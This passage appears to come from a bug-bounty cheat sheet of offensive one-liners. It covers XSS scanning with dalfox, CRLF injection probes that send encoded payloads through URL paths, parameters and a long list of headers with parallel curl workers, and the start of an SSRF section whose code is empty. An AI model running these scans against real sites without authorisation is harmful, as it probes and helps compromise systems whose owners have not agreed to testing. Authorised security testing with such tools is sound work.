 ## 4.`XSS Checks on list of Urls`
**Explanation – Takes input of urls file and passes it to dalfox tool for xss scanning and saves it to xss.txt file.**
```
cat urls.txt | dalfox pipe --multicast -o xss.txt
```
## 5.`CRLF Injection Check One Liner`
**On Live Domains
Explanation – Takes input of live domains file and passes it to rush which runs 40 workers (-j40) parallely and displays if the injected value is reflected in response header.**
```
cat live-domains | rush -j40 'if curl -Iks -m 10 "{}/%0D%0Acrlf:crlf" | grep -q "^crlf:crlf" || curl -Iks -m 10 "{}/%0d%0acrlf:crlf" | grep -q "^crlf:crlf" || curl -Iks -m 10 "{}/%E5%98%8D%E5%98%8Acrlf:crlf" | grep -q "^crlf:crlf"; then echo "The URL {} may be vulnerable to CRLF Injection. Check Manually";fi'
```
**On Live Urls with Parameters
Explanation – Takes input of urls file and passes it to qsreplace which replaces the value of parameters as the injected one and passes it to rush which runs 40 workers (-j40) parallely and displays if the injected value is reflected in response header.
```**
cat urls.txt | qsreplace "%0d%0acrlf:crlf" | rush -j40 'if curl -skI -m 10 "{}" | grep -q "^crlf:crlf"; then echo "CRLF found on {}"; fi'
```
Test Case 2
```
cat urls.txt | qsreplace "%E5%98%8D%E5%98%8Acrlf:crlf" | rush -j40 'if curl -skI -m 10 "{}" | grep -q "^crlf:crlf"; then echo "CRLF found on {}"; fi'
```
Test Case 3
```
cat urls.txt | qsreplace -a "%0d%0acrlf:crlf" | rush -j40 'if curl -skI -m 10 "{}" | grep -q "^crlf:crlf"; then echo "CRLF found on {}"; fi'
```
**On Headers (Files containing live domains)
Explanation – If any header is vulnerable to crlf injection, then it alerts.**
```
cat $1 | rush -j40 'if curl -Iks -m 10 "{}" -H "CF-Connecting_IP: %0d%0acrlf:crlf" -H "From: root@%0d%0acrlf:crlf" -H "Client-IP: %0d%0acrlf:crlf" -H "X-Client-IP: %0d%0acrlf:crlf" -H "X-Forwarded-For: %0d%0acrlf:crlf" -H "X-Wap-Profile: %0d%0acrlf:crlf" -H "Forwarded: %0d%0acrlf:crlf" -H "True-Client-IP: %0d%0acrlf:crlf" -H "Contact: root@%0d%0acrlf:crlf" -H "X-Originating-IP: %0d%0acrlf:crlf" -H "X-Real-IP: %0d%0acrlf:crlf" | grep -q "^crlf:crlf" || curl -Iks -m 10 "$line" -H "CF-Connecting_IP: %E5%98%8D%E5%98%8Acrlf:crlf" -H "From: root@%E5%98%8D%E5%98%8Acrlf:crlf" -H "Client-IP: %E5%98%8D%E5%98%8Acrlf:crlf" -H "X-Client-IP: %E5%98%8D%E5%98%8Acrlf:crlf" -H "X-Forwarded-For: %E5%98%8D%E5%98%8Acrlf:crlf" -H "X-Wap-Profile: %E5%98%8D%E5%98%8Acrlf:crlf" -H "Forwarded: %E5%98%8D%E5%98%8Acrlf:crlf" -H "True-Client-IP: %E5%98%8D%E5%98%8Acrlf:crlf" -H "Contact: root@%E5%98%8D%E5%98%8Acrlf:crlf" -H "X-Originating-IP: %E5%98%8D%E5%98%8Acrlf:crlf" -H "X-Real-IP: %E5%98%8D%E5%98%8Acrlf:crlf" | grep -q "^crlf:crlf" || curl -Iks -m 10 "$line" -H "CF-Connecting_IP: %0D%0Acrlf:crlf" -H "From: root@%0D%0Acrlf:crlf" -H "Client-IP: %0D%0Acrlf:crlf" -H "X-Client-IP: %0D%0Acrlf:crlf" -H "X-Forwarded-For: %0D%0Acrlf:crlf" -H "X-Wap-Profile: %0D%0Acrlf:crlf" -H "Forwarded: %0D%0Acrlf:crlf" -H "True-Client-IP: %0D%0Acrlf:crlf" -H "Contact: root@%0D%0Acrlf:crlf" -H "X-Originating-IP: %0D%0Acrlf:crlf" -H "X-Real-IP: %0D%0Acrlf:crlf" | grep -q "^crlf:crlf"; then echo "The URL {} with vulnerable header may be vulnerable to CRLF Injection. Check Manually";fi'
```
## 6. `SSRF Check One Liner`
**On Headers (File containing live domains)
Explanation – Injceted burp collaborator server in requested headers and issues a request and saves it in the output file including each request timing so that if one gets a hit, he can confirm by checking the request timing.
**
Replace $2 with your burp collaborator server.
```
```